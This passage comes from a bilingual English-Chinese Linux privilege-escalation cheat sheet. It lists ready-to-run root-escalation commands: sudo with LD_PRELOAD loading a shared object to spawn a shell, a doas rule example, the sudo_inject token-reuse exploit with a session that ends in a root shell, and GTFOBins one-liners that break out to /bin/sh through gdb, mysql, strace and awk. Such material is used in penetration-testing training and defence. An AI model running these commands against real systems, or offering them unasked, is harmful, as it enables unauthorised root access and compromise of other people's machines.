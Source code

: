```shell
# Execute any binary with the LD_PRELOAD to spawn a shell : 
# 使用LD_PRELOAD执行任何二进制文件 以派生得到shell：

sudo LD_PRELOAD=/tmp/shell.so find
```


##### Doas
```
# There are some alternatives to the sudo binary such as doas for OpenBSD, remember to check its configuration at /etc/doas.conf
# 有一些二进制程序 可以替代 sudo这个二进制程序，比如OpenBSD的doas，记得在/etc/doas.conf检查它的配置，如
# 配置允许:名为demo的用户 可以使用root身份运行vim
permit nopass demo as root cmd vim
```



##### sudo_inject

```
# Using https://github.com/nongiach/sudo_inject

$ sudo whatever
[sudo] password for user:    

# Press <ctrl>+c since you don't have the password. 
# 没有密码时 直接按<ctrl>+c
# This creates an invalid sudo tokens.
# 创建一个无效的sudo tokens

$ sh exploit.sh
.... wait 1 seconds

# no password required :)
# 无需密码
$ sudo -i
# id
uid=0(root) gid=0(root) groups=0(root)
```

Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf

----

#### GTFOBins

https://gtfobins.github.io/

```
# GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.
# GTFOBins是Unix二进制文件的精选列表，可被攻击者利用来绕过本地安全限制。

# 如
gdb -nx -ex '!sh' -ex quit
sudo mysql -e '! /bin/sh'
strace -o /dev/null /bin/sh
sudo awk 'BEGIN {system("/bin/sh")}'
```
